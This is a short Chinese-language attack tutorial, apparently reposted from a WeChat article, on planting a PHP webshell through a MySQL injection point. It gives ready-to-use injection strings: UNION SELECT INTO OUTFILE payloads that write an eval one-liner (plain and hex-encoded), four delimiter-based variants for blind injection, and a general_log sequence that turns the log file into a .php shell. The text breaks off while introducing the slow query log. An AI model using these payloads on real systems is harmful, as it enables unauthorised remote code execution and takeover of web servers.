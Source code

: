 bypass师傅：[MySQL注入点写入WebShell的几种方式](https://mp.weixin.qq.com/s?__biz=MzA3NzE2MjgwMg==&mid=2448905256&idx=1&sn=ac7a5a3c52f1ac7b30c82fbcb2e0e521&chksm=8b55c475bc224d63eaec9d84421bd67bd45a6098a016e751e49cd0e16cc51f53061dd8496ee3&mpshare=1&scene=1&srcid=&sharer_sharetime=1587001179548&sharer_shareid=a7d99c78943a626e64cade4860efb7d9#rd)

一个`MySQL`注入点写入`Webshell`，需要满足哪些条件呢？简单来说，需要了解secure_file_priv是否支持数据导出、还有当前数据库用户权限，当然，root用户数据库的全部权限，但写入Webshell 并不需要一定是`root`用户。

## 利用Union select 写入

这是最常见的写入方式，`union` 跟`select into outfile`，将一句话写入`evil.php`，仅适用于联合注入。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户File权限、获取物理路径。

```
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'
?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
```

## 利用分隔符写入

当`Mysql`注入点为盲注或报错，`Union select`写入的方式显然是利用不了的，那么可以通过分隔符写入。`SQLMAP`的 `--os-shell`命令，所采用的就是以下这种方式。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户`File`权限、获取物理路径。

```
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
```

同样的技巧，一共有四种形式：

```
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
```

## 利用log写入

新版本的`MySQL`设置了导出文件的路径，很难在获取`Webshell`过程中去修改配置文件，无法通过使用`select into outfile`来写入一句话。这时，我们可以通过修改`MySQL`的`log`文件来获取`Webshell`。

具体权限要求：数据库用户需具备`Super`和`File`服务器权限、获取物理路径。

```
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell
set global general_log=off;                  #关闭general log模式
```

## 慢日志

MySQL的**慢查询日志**是MySQL提供的一种日志记录，**它用来记录在MySQL中响应时间超过阀值的语句**，具体指运行时间超过long_query_time值的SQL，则会被记录到慢查询日志中。long_query_time的默认值为10，意思是运行10S以上的语句。使用set global slow_query_log=1开启了慢查询日志只对当前数据库生效，如果MySQL重启后则会失效。如果要永久生效，就必须修改配置文件my.cnf（其它系统变量也是如此）。